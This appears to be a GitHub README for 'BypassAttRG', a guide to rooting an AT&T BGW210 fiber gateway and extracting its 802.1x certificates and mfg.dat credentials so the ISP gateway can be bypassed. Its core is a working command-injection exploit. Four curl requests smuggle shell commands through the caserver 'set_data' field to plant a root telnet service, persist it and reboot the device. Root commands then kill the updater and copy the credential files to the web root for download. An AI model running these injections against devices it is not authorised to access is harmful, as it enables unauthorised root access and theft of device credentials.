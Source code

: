 # BypassAttRG

This method works to rip the 802.1x keys from BGW210.

<!-- **Background**: I switched to AT&T fiber and I hate AT&T's residential gateways -->


## Menu
- [Prerequisites](#prerequisites)
- [Extract Certificates](#extract-certificates)
- [Configuring 802.1x authentication](#configuring-8021x-authentication)
- [Miscellaneous](#miscellaneous)
- [Credits & References](#credits--references)

  
## Prerequisites
- [Python 3](https://www.python.org/downloads/release/python-373/) for the local http server. There are many alternatives(e.g. [mobaxterm](https://mobaxterm.mobatek.net/)).
- Basic knowledge of POSIX commands (cd, mkdir, wget, etc.).
- A BGW210

[Back to menu](#menu)
## Extract Certificates
The certificates extracted from both NVG589 and NVG599 work. 
- [BGW210](#bgw210)

### BGW210
Once downgraded, go to http://192.168.1.254/cgi-bin/ipalloc.ha , type your device access code to login, and assign a static IP to your PC that you'll be executing the CURL commands from.
I assigned my PC: 192.168.1.70 since that's what the RG's DHCP-Server had assigned it.
Once you assign a static IP,  refresh your PC's local ip address. using ifconfig, or ipconfig if on windows (cmd prompt: ipconfig /release and then ipconfig /renew). You may ignore this step if you assigned the same IPv4 it received by the DHCP-Server.
Once that's done, open http://192.168.1.254/cgi-bin/ipalloc.ha and authenticate again if it asks.
Once you authenticate, run these CURL commands (remember to navigate to cURL, see my video for help.
(tech has no password when prompted)

curl -k -u tech -H "User-Agent: blah" -H "Connection:Keep-Alive" -d "appid=001&set_data=| echo 28telnet stream tcp nowait root /usr/sbin/telnetd -i -l /bin/nsh > /var/etc/inetd.d/telnet28|" -v --http1.1 https://192.168.1.254:49955/caserver
 
curl -k -u tech -H "User-Agent: blah" -H "Connection:Keep-Alive" -d "appid=001&set_data=| pfs -a /var/etc/inetd.d/telnet28|" -v --http1.1 https://192.168.1.254:49955/caserver
 
curl -k -u tech -H "User-Agent: blah" -H "Connection:Keep-Alive" -d "appid=001&set_data=| pfs -s|" -v --http1.1 https://192.168.1.254:49955/caserver
 
curl -k -u tech -H "User-Agent: blah" -H "Connection:Keep-Alive" -d "appid=001&set_data=| reboot|" -v --http1.1 https://192.168.1.254:49955/caserver
 
The AT&T RG (BGW210) will reboot after the final command, and you'll be able to telnet on port 28 as admin w/ device access code as the password once it reboots. 

(Use Putty if using a Windows PC)
 
Once you're logged in via telnet, type ! and press enter to elevate to a root sh terminal

Now, type top and let the telnet terminal populate with the running processes of the RG.

Once the top command displays all of the running process, look for a process labelled:   
/usr/bin/udpsvd -E 0 69 tftpd /lib/firmware

Press CTRL + C to break out of the top command.

Type kill PID_number_of_udpsvd; 
For example: kill 1048 (in the video I mistook the other four digit number for the PIV by mistake initially, then corrected myself).

This kills the auto update script so that you can make changes, or copy your 802.11x certificates without the ATT firmware automatically updating when you aren't ready for it. Not really as important if you don't have the RG connected to the ONT (I didn't in the video).

#### Extract Certificates
- In BGW210, run the following commands in order. Make sure you are in root shell. Reminder - Type `!`. It switches to root shell.
  ```
  mount -o remount,rw /dev/ubi0 /  
  mount mtd:mfg -t jffs2 /mfg
  cp /mfg/mfg.dat /www/att/mfg.dat
  mount mtd:mfg -t jffs2 /mfg
  Download: http://192.168.1.254/mfg.dat
  
  ## Next:
  
  cd /tmp
  tar cf cert.tar /etc/rootcert/
  cp cert.tar /www/att/images
  Download: http://192.168.1.254/images/cert.tar
  ```
- Reminder: Download http://192.168.1.254/mfg.dat and http://192.168.1.254/images/cert.tar to your **local** device.


[Back to menu](#menu)
## Configuring 802.1x authentication
### Decode Credentials 
Credit: [devicelocksmith](https://www.devicelocksmith.com/2018/12/eap-tls-credentials-decoder-for-nvg-and.html)

- Download decoder v1.0.4: [win](decoder/win/mfg_dat_decode_1_04.zip), [linux](decoder/linux/mfg_dat_decode_1_04.tar.gz), [mac](decoder/mac/mfg_dat_decode_1_04_macosx.zip)
  - [Original download page](https://www.devicelocksmith.com/2018/12/eap-tls-credentials-decoder-for-nvg-and.html)
- Copy *mfg.dat*, unzip *cert.tar* to the same location as *mfg_dat_decode*.
- Run *mfg_dat_decode*. You should get a file like this: *EAP-TLS_8021x_XXXX*.


## Miscellaneous

### Compile Entware packages from source
Some useful links
- [Compile-packages-from-sources](https://github.com/Entware/Entware/wiki/Compile-packages-from-sources)
- [Compile-custom-programs-from-source](https://github.com/RMerl/asuswrt-merlin/wiki/Compile-custom-programs-from-source)

### FAQ
1. Q: **Slow Speed**: The speed doesn't reach to the speed that I subscribed to.    
   A: Please make sure the NAT acceleration is enabled. (Web GUI -> Tools-> HW acceleration). If it says *incompatible with*, you need to turn off some services.


### To-dos
- [ ] Cross compile *wpa_supplicant*, so we don't need to install *Entware*.
- [ ] Ask Merlin to update *wpa_supplicant*.
- [ ] Try to use Openwrt/ddwrt to bypass AT&T's RG.
- [ ] Write a doc for compiling Entware packages from the source.

### Donation
- Bitcoin: 18hUjgNARRKWXr7hG9n62pWscZ4862TL6Q

[Back to menu](#menu)
## Credits & References
- [devicelocksmith](https://www.devicelocksmith.com/2018/12/eap-tls-credentials-decoder-for-nvg-and.html): EAP-TLS credentials decoder and the method to extract */mfg/mfg.dat*
- [earlz](http://earlz.net/view/2012/06/07/0026/rooting-the-nvg510-from-the-webui): Rooting The NVG510 from the WebUI
- [nomotion](https://www.nomotion.net/blog/sharknatto/): NVG589 root exploit
- [dslreports.com](https://www.dslreports.com/forum/uverse): A great forum with many useful information.
- [jsolo1@dslreports.com](https://www.dslreports.com/profile/422016): Provides many helpful & useful suggestions.

[Back to menu](#menu)
